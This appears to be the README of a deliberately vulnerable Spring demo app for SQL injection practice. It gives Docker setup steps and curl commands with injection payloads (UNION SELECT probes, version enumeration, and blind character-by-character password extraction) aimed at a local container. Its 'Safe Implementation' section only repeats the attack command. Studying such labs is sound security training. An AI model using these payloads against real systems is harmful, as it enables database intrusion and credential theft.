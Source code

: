 # SQLi vulnerable Spring Application

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 sqli_victim_webapp_java_spring
```

To fill the database:

```
curl 'localhost:5808/sqlidemo/all'
curl localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
